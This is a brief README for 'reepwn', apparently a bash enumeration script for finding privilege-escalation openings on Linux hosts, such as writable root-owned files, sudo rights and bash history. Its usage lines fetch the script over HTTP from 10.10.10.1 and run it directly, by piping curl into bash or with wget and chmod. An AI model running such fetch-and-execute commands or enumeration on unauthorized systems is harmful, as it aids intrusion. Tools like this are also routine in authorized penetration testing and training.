 # reepwn
A bash script used for security-orientated Linux enumeration  
  
Inspired by: [LinEnum](https://github.com/rebootuser/LinEnum)

Features
--------
- OS Detection
- Bash History listing
- Finding important log files you can see
- Finding root owned directories that you can write to
- Finding root owned directories that your group can access
- Finding root owned files that you can edit
- Useful /etc/passwd people (uid 0, 500, 501, 502, 1000, 1001, 1002, 2000, 2001, 2002)
- Sudo permissions

Usage
-----

curl http://10.10.10.1:1234/reepwn.sh | bash

or

wget http://10.10.10.1:1234/reepwn.sh && chmod +x ./reepwn.sh && ./reepwn.sh
